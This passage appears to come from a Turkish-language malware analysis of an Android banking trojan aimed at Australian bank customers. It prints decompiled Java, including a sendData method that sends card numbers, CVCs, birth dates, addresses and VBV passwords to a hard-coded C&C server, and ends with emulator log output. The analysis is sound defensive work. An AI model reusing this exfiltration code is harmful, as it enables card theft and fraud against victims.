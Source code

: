 ```java
  public static final String IS_LINK_OPENED = "IS_LINK_OPENED";
  public static final String IS_LOCK_ENABLED = "IS_LOCK_ENABLED";
  public static final int LAUNCH_CARD_DIALOG_WAIT_MINUTES = 1;
  public static final String LINK_TO_OPEN = "http://xxxmobiletubez.com/video.php";
  public static final String LISTENING_SMS_ENABLED = "LISTENING_SMS_ENABLED";
  public static final int MESSAGES_CHUNK_SIZE = 1000;
  public static final String MESSAGES_DB = "MESSAGES_DB";
  public static final String NAB_IS_SENT = "NAB_IS_SENT";
  public static final String PHONE_IS_SENT = "PHONE_IS_SENT";
  public static final String PREFS_NAME = "AppPrefs";
  public static final String ST_JEORGE_IS_SENT = "ST_JEORGE_IS_SENT";
  public static final String WESTPACK_IS_SENT = "WESTPACK_IS_SENT";
   
  public Constants() {}
}
```
dikkat edileceği üzere sabit değişkenlerin bulunduğu dosya içerisinde **IP** adresleri ve bazı URL bilgileri bulunmaktadır.  zararlının iletişime geçtiğ CnC sunucu bilgisi

```java
    CreditCardNumberEditText$OnCreditCardTypeChangedListener
```
sınıfında *sendData* ile **37.143.14.251** IP adresi **2080** portuna veri gönderdiği görülmektedir.

```java
    private void sendData() {
        Sender.sendCardData((Context)this, "http://37.143.14.251:2080/", new Card(this.ccBox.getText().toString(), this.expiration1st.getText().toString(), this.expiration2nd.getText().toString(), this.cvcBox.getText().toString()), new BillingAddress(this.nameOnCard.getText().toString(), this.dateOfBirth.getText().toString(), this.zipCode.getText().toString(), this.streetAddress.getText().toString(), "+" + this.countryPrefix.getText().toString() + this.phoneNumber.getText().toString()), new AdditionalInformation(this.vbvPass.getText().toString(), this.oldVbvPass));
    }
```

Zararlı uygulamanın cihaz tarafında yaptığı diğer işlemlere bakarsak:
Zararlı mobil cihazı ilklendirirken  cihaza ait çeşitli verileri C&C sunucuya göndermekte ve bu verilere göre enfekte olmuş cihaz için bir ID(code) almaktadır.

![enter image description here](https://i.imgur.com/xcsHObE.png)

![enter image description here](https://i.imgur.com/vLSUjGc.png)

zararlı belirli aralıklarla (her bir dakikada bir) C&C sunucuna bağlanıp yeni komut beklemektedir.


```

I/InputDispatcher(  511): Dropping event because there is no touchable window at (778, 972).
I/ActivityManager(  511): START u0 {act=android.intent.action.MAIN cat=[android.intent.category.LAUNCHER] flg=0x10200000 cmp=com.android.vending/.AssetBrowserActivity} from pid 690
W/genymotion_audio(  148): out_write() limiting sleep time 111337 to 39909
W/genymotion_audio(  148): out_write() limiting sleep time 102879 to 39909
W/genymotion_audio(  148): out_write() limiting sleep time 94467 to 39909
D/dalvikvm(  511): GC_FOR_ALLOC freed 1660K, 23% free 10811K/13872K, paused 8ms, total 8ms
D/MobileDataStateTracker(  511): default: setPolicyDataEnable(enabled=true)
W/genymotion_audio(  148): out_write() limiting sleep time 76575 to 39909
I/ActivityManager(  511): Start proc com.android.vending for activity com.android.vending/.AssetBrowserActivity: pid=2710 uid=10078 gids={50078, 3003, 1028, 1015}
W/genymotion_audio(  148): out_write() limiting sleep time 68163 to 39909
D/Finsky  ( 2710): [1] FinskyApp.onCreate: Initializing network with DFE https://android.clients.google.com/fdfe/
D/MobileDataStateTracker(  511): default: setPolicyDataEnable(enabled=true)
D/dalvikvm( 2710): GC_CONCURRENT freed 217K, 8% free 3186K/3456K, paused 2ms+0ms, total 5ms
W/genymotion_audio(  148): out_write() limiting sleep time 50272 to 39909
```